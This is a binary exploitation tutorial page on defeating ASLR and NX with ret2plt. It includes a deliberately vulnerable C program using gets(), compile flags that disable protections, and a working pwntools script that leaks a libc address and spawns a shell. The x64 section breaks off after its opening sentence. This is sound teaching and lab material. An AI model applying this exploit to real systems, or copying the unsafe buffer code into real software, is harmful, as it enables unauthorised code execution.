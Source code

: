 ```yaml
---
description: 09/20/2023
---
```


# ☠ Bypassing Address Space Layout Randomization & NX (ret2plt)

This will feature x86 and x64-based exploitation.

## Introduction

**Need a refresher on ASLR?**

{% content-ref url="memory-protections/address-space-layout-randomization-aslr.md" %}
[address-space-layout-randomization-aslr.md](memory-protections/address-space-layout-randomization-aslr.md)
{% endcontent-ref %}

<mark style="color:yellow;">Address Space Layout Randomization</mark>, or <mark style="color:yellow;">ASLR</mark> is very similar to PIE.&#x20;

However, it is <mark style="color:yellow;">implemented at the kernel level of the underlying operating system</mark>.

<mark style="color:yellow;">The base address of the string and the functions are going to be randomized with each execution of the binary</mark>.

With <mark style="color:green;">ASLR enabled</mark>, you can visualize this by running `ldd` against your target binary a few times:

<figure><img src="../.gitbook/assets/image (145).png" alt=""><figcaption></figcaption></figure>

### How Does ret2plt Work?

Here, we will be taking advantage of the <mark style="color:yellow;">**ret2plt**</mark> technique that <mark style="color:yellow;">involves calling</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`puts@plt`</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">and passing the GOT entry of</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`puts()`</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">as a parameter</mark>.

This will cause <mark style="color:yellow;">`puts()`</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">to print out its own address in</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`libc`</mark>.

* How cool is that?!

This will allow us to leak the ASLR base. Essentially, we need to craft a payload that leaks the real address of `puts()`.&#x20;

As we learned in [overwriting-global-offset-table-got.md](overwriting-global-offset-table-got.md "mention"), <mark style="color:yellow;">we know that calling the PLT entry of the function is the same as calling the function itself</mark>. If we point the parameter to the GOT entry, it will print out it's location/address.

This is because C string arguments for functions take pointers of where the string can be found.

Ultimately, pointing it to the GOT entry will print it out.

**NOTE:** <mark style="color:yellow;">It is important to note that ASLR must be</mark> <mark style="color:green;">enabled</mark> <mark style="color:yellow;">and PIE MUST be</mark> <mark style="color:red;">disabled</mark> <mark style="color:yellow;">in order to ensure that ret2plt works correctly</mark>. Also, this will allow you to bypass NX as well.&#x20;

<mark style="color:green;">**Enable**</mark>** ASLR if you have it disabled from previous challenges:**

```
sudo echo 2 | sudo tee /proc/sys/kernel/randomize_va_space
```

### References

{% embed url="https://ir0nstone.gitbook.io/notes/types/stack/aslr/ret2plt-aslr-bypass" %}

{% embed url="https://sharkmoos.medium.com/binary-exploitation-exploiting-ret2libc-328eefb0421b" %}

## Exploitation (x86)

### Source Code

`vuln-32.c`:

```c
#include <stdio.h>

void vuln() 
{
    puts("Can you reach me?!");

    char buffer[20];
    gets(buffer);
}

int main() 
{
    vuln();

    return 0;
}
```

### Compilation

```
gcc vuln.c -o vuln -no-pie -fno-stack-protector -m32
```

### Enumeration

`checksec`:

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

* 32-bit executable
* NX Enabled
* No PIE (<mark style="color:yellow;">important</mark>)
* Remember, ASLR should be enabled

`file`:

{% code overflow="wrap" %}
```
vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=a0f25810be2712c4f32922a70c705efd5d984665, for GNU/Linux 3.2.0, not stripped
```
{% endcode %}

### Exploit Code

Note: <mark style="color:yellow;">be sure to read the comments embedded in the exploit code to further understand how the exploit is behaving</mark>.

`exploit.py`:

```python
from pwn import *

# Basic pwn template setup
elf = context.binary = ELF('./vuln')
libc = elf.libc
p = process()

# We need a payload that will leak the actual address of puts()
# Remember, calling the PLT entry of the function is the same as calling the function itself
p.recvline()    # Receive the first output

payload = flat(
    'A' * 32,
    elf.plt['puts'],
    elf.sym['main'],    # Main??? This is acting as the return address. However, if we set it to something random, it will leak the libc base and crash but if we were to call main() again, we would simply restart the binary.
    elf.got['puts']
)

p.sendline(payload)

puts_leak = u32(p.recv(4))  # The GOT entry will not be the only thing printed. puts() will be. It will be printed as a null-byte. This means it will keep on printing GOT addresses, but we only care about the first one. So, we will grab the first 4 bytes and utilize u32() to interpret them as a little-endian number.
p.recvlines(2) # This means we will ignore the rest of the values as well as the puts() output from calling main() again.

# Next, we will calculate the libc base and perform a ret2libc attack
libc.address = puts_leak - libc.sym['puts']
log.success(f'LIBC Base: {hex(libc.address)}')

payload = flat(
    'A' * 32,
    libc.sym['system'], # Call system() from libc
    libc.sym['exit'], # Call exit() from libc to exit gracefully. exit() is not required here, it's just nicer
    next(libc.search(b'/bin/sh\x00')) # Search for the string "/bin/sh" in libc and append it as an argument to system() found in libc.
)

p.sendline(payload) # Send payload
p.interactive() # Obtain interactive shell
```

## Exploitation (x64)

Here, we can utilize a similar methodology, however since we are working with x64, we will need to utilize ROP gadgets to inject our data into the registers.
